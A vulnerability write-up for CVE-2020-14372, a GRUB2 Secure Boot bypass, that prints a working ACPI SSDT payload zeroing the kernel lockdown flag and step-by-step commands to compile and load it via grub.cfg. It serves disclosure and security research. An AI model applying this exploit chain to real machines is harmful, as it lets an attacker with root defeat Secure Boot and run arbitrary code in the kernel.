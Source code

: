 <!--GEN_META
GEN_TITLE=CVE-2020-14372: Secure Boot bypass using GRUB2
GEN_DESCRIPTION=Bypassing (not so) Secure Boot with one "simple trick"
GEN_KEYWORDS=CVE-2020-14372,writeup,POC, GRUB2,UEFI,SecureBoot
GEN_AUTHOR=Máté Kukri
GEN_TIMESTAMP=2021-05-22 17:11
GEN_COPYRIGHT=Copyright (C) Máté Kukri, 2021
-->

## Vulnerability details

One day I typed "help" into GRUB2's console and saw some really "fun"
commands:

* read_byte ADDR:      Read 8-bit value from ADDR
* write_byte ADDR VAL: Write 8-bit value VAL to ADDR

I immediately thought I found the most fun Secure Boot bypass, but these
commands output the following under Secure Boot:
```
error: Secure Boot forbids loading module .../memrw.mod.
```

Out of curiosity, booted this way I typed the "acpi" command, and it printed
a usage message telling me to point it to an AML file. It's well-known that
another name for ACPI is a "mechanism to run arbitrary vendor provided code
in the context of your kernel", since we can load ACPI tables with Secure Boot
enabled, we are the "vendor" who can provide that code.

But since there is a one-byte flag (kernel_locked_down) in the data segment of
the booted kernel telling it whether or not its "locked down", we can just
overwrite that flag using an SSDT and let the kernel load arbitrary modules.

The following SSDT accomplishes this by creating a "battery" object called `HACK`,
and doing the write in said object's `_INI` method which is always executed by
the kernel:
```
DefinitionBlock ("trigger.aml", "SSDT", 2, "", "", 0x00001001)
{
  OperationRegion (KMEM, SystemMemory, ADDRESS_GOES_HERE, 4)
  Field (KMEM, DWordAcc, NoLock, WriteAsZeros)
  {
    LKDN, 32
  }
  Device (\_SB_.HACK)
  {
    Name(_HID, EisaId ("PNP0C0A"))
    Name(_UID, 0x02)
    Method(_INI)
    {
      If (LKDN)
      {
        LKDN = Zero
      }
    }
  }
}
```

I wrote a proof of concept exploit in Python that helps with generating this SSDT,
but exploting this by hand is not that difficult either. The rough outline is as
follows:

* Disable KASLR by adding `nokaslr` to the kernel command line
* Find the **physical** address of the `kernel_locked_down` symbol after booting
   without KASLR
* Insert the address into the SSDT above, than compile that SSDT using `iasl`
* Finally instruct GRUB2 to load the SSDT

## How to use the PoC

Assumptions:

* The attacker has `root` access to the running operating system
* Linux is booted under UEFI Secure Boot with GRUB2 version <=2.02
  (some builds of 2.02 are patched), this will cause kernel lockdown to be enabled

When the above assumptions are met, edit `/etc/default/grub`, add `nokaslr`
to `GRUB_CMDLINE_LINUX_DEFAULT`, run `update-grub`, and then finally reboot.

After the kernel is booted without address space layout randomization, the
`genssdt.py` script can be used to generate a "malicious" SSDT that will patch
the kernel's memory at runtime to disable lockdown:

```
python3 genssdt.py > trigger.dsl
iasl trigger.dsl
cp trigger.aml /boot/efi/evil_ssdt.aml
```

Now that the SSDT was created, the GRUB configuration file
(usually at `/boot/grub/grub.cfg`) must be edited to make GRUB load this SSDT
(adding this to the top of this file):

```
acpi (hd0,gpt1)/evil_ssdt.aml
```

Based on where the EFI system partition (where we placed the SSDT above) resides
on disk, `(hd0,gpt1)` might need to be replaced with something else.

Finally after a reboot, kernel lockdown should be disabled, giving `root` the
ability to execute arbitrary code in the kernel.
